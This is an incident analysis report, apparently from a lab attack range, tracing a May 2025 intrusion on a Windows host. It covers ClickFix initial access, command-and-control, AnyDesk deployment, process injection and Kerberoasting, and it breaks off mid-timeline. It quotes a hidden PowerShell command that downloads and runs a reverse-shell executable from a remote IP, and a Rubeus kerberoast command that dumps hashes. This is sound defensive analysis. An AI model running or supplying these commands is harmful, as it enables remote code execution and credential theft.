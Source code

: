 # Security Incident Analysis Report: May 17-19, 2025

## Executive Summary

A comprehensive analysis of security signals from May 17-19, 2025 reveals a sophisticated multi-stage attack on host `EC2AMAZ-OSH4IUQ.attackrange.prptl.org`. The attack began with a ClickFix initial access vector, followed by deployment of remote management tools, process injection techniques, credential theft attempts using Rubeus and BloodHound, and establishment of persistence mechanisms. This report details the attack chain, techniques used, and provides a timeline of events.

## Timeline of Events

### May 17, 2025

#### Initial Compromise (15:16:40 UTC)
- **ClickFix Initial Access** detected on `EC2AMAZ-OSH4IUQ.attackrange.prptl.org`
- User `ATTACKRANGE\jl.picard` was compromised
- Registry modification detected in RunMRU: `HKU\S-1-5-21-216862292-1716178118-2570252875-1113\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU\MRUList`
- PowerShell execution with evasion parameters:
  ```powershell
  "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -nop -w hidden -c "iwr http://172.31.7.63/revshelled.exe -OutFile $env:TEMP\fixer.exe; Start-Process $env:TEMP\fixer.exe"
  ```
- Malicious executable downloaded to: `C:\Users\jl.picard\AppData\Local\Temp\2\fixer.exe`

#### Post-Exploitation Activities (15:16:40 - 15:22:53 UTC)

- **Command & Control Establishment** (15:16:43)
  - C2 connection from `fixer.exe` to `172.31.7.63:4444`
  - Protocol: TCP
  - Source IP: 172.31.5.238

- **Remote Management Tool Deployment** (15:16:55)
  - AnyDesk RMM tool deployed from Temp directory
  - Path: `C:\Windows\Temp\anydesk.exe`
  - Multiple configuration files created in user's AppData directory

- **Process Injection Detected** (15:17:00)
  - Source: `C:\Users\JL025C~1.PIC\AppData\Local\Temp\2\fixer.exe`
  - Target: `C:\Windows\Temp\anydesk.exe`
  - Access Mask: `0x1fffff` (suspicious)
  - Suspicious call trace patterns detected

- **Additional Process Injection** (15:18:00)
  - Source: `C:\Users\JL025C~1.PIC\AppData\Local\Temp\2\fixer.exe`
  - Target: `C:\Windows\SysWOW64\cmd.exe`
  - Similar suspicious access patterns

- **Credential Theft Attempt** (15:18:15)
  - Rubeus tool execution detected
  - Command: `C:\Windows\Temp\Rubeus.exe -a kerberoast /outputfile:C:\Windows\Temp\hashes.txt`
  - Credential extraction functionality identified
